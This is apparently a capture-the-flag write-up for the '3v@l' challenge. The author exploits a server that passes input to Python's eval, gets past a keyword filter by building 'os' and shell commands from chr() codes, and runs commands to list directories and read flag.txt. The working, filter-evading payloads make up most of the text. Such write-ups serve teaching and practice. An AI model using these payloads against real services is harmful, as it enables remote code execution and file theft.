


# 3v@l

> Unfortunately, they are using an eval function to calculate the loan. 

As it's written in the description, the server evals the input.
For example, when I input `7*7`, it returns `49`.

When I input `__import__('os').popen('ls').read()`, I got the error below.
So, the server seems to do some validations to prevent remote code execution.



When I tried to dynamically construct `os` and `ls`, it works.
```
__import__("".join([chr(111), chr(115)])).popen("".join([chr(108), chr(115)])).read()
```



Since I found the way to execute commands, I can read the flag.
```
# pwd
__import__("".join([chr(111), chr(115)])).popen("".join([chr(112), chr(119), chr(100)])).read()
# Result: /app

# ls ..
__import__("".join([chr(111), chr(115)])).popen("".join([chr(108), chr(115), chr(32), chr(46), chr(46)])).read()
# Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 

# cat ../flag.txt
__import__("".join([chr(111), chr(115)])).popen("".join([chr(99), chr(97), chr(116), chr(32), chr(46), chr(46), chr(47), chr(102), chr(108), chr(97), chr(103), chr(46), chr(116), chr(120), chr(116)])).read()
```
